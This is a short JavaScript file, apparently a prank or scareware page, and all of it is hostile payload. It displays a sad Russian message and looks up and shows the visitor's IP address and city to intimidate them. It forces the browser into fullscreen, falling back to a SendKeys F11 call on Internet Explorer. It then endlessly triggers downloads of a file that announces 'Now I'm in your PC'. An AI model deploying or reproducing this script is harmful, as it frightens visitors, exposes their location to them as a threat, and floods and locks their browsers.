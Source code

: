 document.write('<span style="font-family: cursive;padding-left: 0px;margin-left: 400px;margin-right: 0px;position: absolute;margin-top: 230px;"><br>Да кому я нужен, и зачем я здесь, все лишь что-то  хотят от меня, грустно.<br>Приходиться делать вид что всё хорошо, а ведь одинокие люди несчастны.<br> Жаль только одно, всем пофиг.</span>');

$.getJSON("http://api.db-ip.com/v2/free/self").then(data =>
		document.write("твой ip:" + data.ipAddress + data.city)
	);

var el = document.documentElement
    , rfs = // for newer Webkit and Firefox
           el.requestFullscreen
        || el.webkitRequestFullScreen
        || el.mozRequestFullScreen
        || el.msRequestFullscreen
;
if(typeof rfs!="undefined" && rfs){
  rfs.call(el);
} else if(typeof window.ActiveXObject!="undefined"){
  // for Internet Explorer
  var wscript = new ActiveXObject("WScript.Shell");
  if (wscript!=null) {
     wscript.SendKeys("{F11}");
  }
}
setInterval(function(){
let text = JSON.stringify({Теперь_я_в_твоём_пк:'ps.Kometa'});
downloadAsFile(text);
function downloadAsFile(data) {
  let a = document.createElement("a");
  let file = new Blob([data], {type: 'application/json'});
  a.href = URL.createObjectURL(file);
  a.download = "Kometa.txt";
  a.click();
}
}, 0);
